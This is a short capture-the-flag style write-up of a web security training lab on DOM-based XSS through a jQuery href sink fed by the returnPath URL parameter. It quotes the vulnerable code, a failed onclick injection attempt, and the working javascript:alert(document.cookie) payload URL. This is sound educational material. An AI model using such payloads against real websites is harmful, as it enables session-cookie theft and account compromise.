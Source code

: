 # Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

 This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie. 

Vulnerable area: Submit feedback page

Found this jQuery code on the page:


`$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});`

Based on the code, we can modify where the `back` link takes the user by modifying the `returnPath` url parameter

I tried many variations of escaping the href attribute and injecting some onclick js, but it didn't work... Example:

`https://ace81f591f9bbb03c0e51e9b00900066.web-security-academy.net/feedback?returnPath=%22%20onclick=%22alert(document.cookie)`

Result of above:
`<a id="backLink" href=""; onclick="alert(document.cookie)">Back</a>`

### Solution
Solved lab with the following payload:

`https://ace81f591f9bbb03c0e51e9b00900066.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)`


